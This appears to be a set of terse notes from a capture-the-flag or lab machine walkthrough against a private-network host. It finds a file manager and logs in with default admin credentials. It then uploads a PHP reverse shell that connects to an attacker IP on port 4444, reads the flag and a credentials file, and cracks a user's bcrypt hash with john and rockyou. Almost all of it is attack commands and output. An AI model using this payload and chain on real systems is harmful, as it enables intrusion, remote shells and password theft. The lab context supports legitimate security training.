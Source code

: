 /filemanager          \(Status: 301\) \[Size: 322\] \[\-\-\> [http://192.168.196.16/filemanager/](#http://192.168.196.16/filemanager/)
[\]](#http://192.168.196.16/filemanager/])


-  admin:admin

upload file shell\.php
\<?php
exec\("/bin/bash \-c 'bash \-i \>\& /dev/tcp/192\.168\.45\.221/4444 0\>\&1'"\);

-  [http://192.168.196.16/shell.php](#http://192.168.196.16/shell.php)


$www\-data

cat /home/dora/local\.txt \(FLAG\)

grep \-rlw "dora" / 2\>/dev/null
/etc/subgid
/etc/subuid
/etc/ssh/sshd\_config
/etc/hostname
/etc/group
/etc/hosts
/etc/passwd
/etc/group\-
/run/cloud\-init/instance\-data\.json
/run/cloud\-init/ds\-identify\.log
/usr/share/locale/fr/LC\_MESSAGES/iso\_639\-3\.mo
/usr/share/locale/it/LC\_MESSAGES/iso\_639\-3\.mo
/proc/sys/kernel/hostname

cat \./filemanager/config/\.htusers\.php
dora:$2a$08$zyiNvVoP/UuSMgO2rKDtLuox\.vYj\.3hZPVYq3i4oG3/CtgET7CjjS

-  john dora\.hash \-\-wordlist=/usr/share/wordlists/rockyou\.txt 
doraemon         \(?\) 